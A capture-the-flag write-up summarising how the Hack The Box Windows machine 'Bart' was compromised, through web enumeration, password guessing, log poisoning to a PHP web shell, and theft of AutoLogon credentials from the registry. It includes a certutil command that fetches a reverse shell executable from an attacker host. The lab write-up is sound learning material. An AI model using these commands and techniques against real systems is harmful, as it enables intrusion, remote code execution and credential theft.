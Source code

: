 ```yaml
---
tags: 
group: Windows
---
```

![](https://labs.hackthebox.com/storage/avatars/db80da1cf486718a9fed04d0013d26e0.png)

- Machine : https://app.hackthebox.com/machines/Bart
- Reference : https://0xdf.gitlab.io/2018/07/15/htb-bart.html
- Solved : 2025.3.6. (Thu) (Takes 2days)

## Summary
---

1. **Initial Enumeration**
    - **Open Ports**: Identified `http(80)` running on Microsoft IIS 10.0.
    - **Virtual Hosts**: Found `bart.htb` and `forum.bart.htb` through HTTP redirects.
    - **Web Content Discovery**:
        - `cewl` used to generate a wordlist from `forum.bart.htb`.
        - `gobuster` identified `/forum/` and `/monitor/`.
        
2. **Web Exploitation**
    - **Login Enumeration**:
        - `monitor.bart.htb` hosted **PHP Server Monitor v3.2.1**.
        - Username enumeration possible via error messages.
        - Found valid user `harvey`, successfully guessed password `potter`.
    - **Internal Exposure**:
        - Gained access to an internal chat system on `internal-01.bart.htb`.
        - Identified **php-ajax-simple-chat** with an accessible `register.php` endpoint.
        
3. **Initial Foothold**
    - **Log Poisoning to Remote Code Execution**:
        - Discovered `log.php` writing user-agent values to a log file.
        - Used log poisoning to inject a PHP web shell.
        - Executed `cmd.php?cmd=certutil.exe -urlcache -split -f http://10.10.14.3:8000/rshell_9000.exe` to upload a reverse shell.
        - Successfully executed `rshell_9000.exe` and obtained a reverse shell as `nt authority\iusr`.
        
4. **Privilege Escalation**
    - **Credential Disclosure**:
        - Extracted **AutoLogon credentials** from registry (`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`).
        - **Username**: `Administrator`, **Password**: `3130438f31186fbaf962f407711faddb`.
    - **Administrator Shell**:
        - Used `Invoke-Command` with `-Credential` to execute a reverse shell as `Administrator`.
        - Successfully connected back and confirmed privileges as `nt authority\Administrator`.

### Key Techniques:

- **Enumeration**: Used `nmap`, `cewl`, `gobuster`, and manual web analysis to identify vulnerabilities.
- **Login Exploitation**: Username enumeration via login error messages, password guessing.
- **Log Poisoning**: Injected PHP code into logs to achieve RCE.
- **Privilege Escalation**: Extracted stored credentials from the Windows registry for `Administrator` access.

---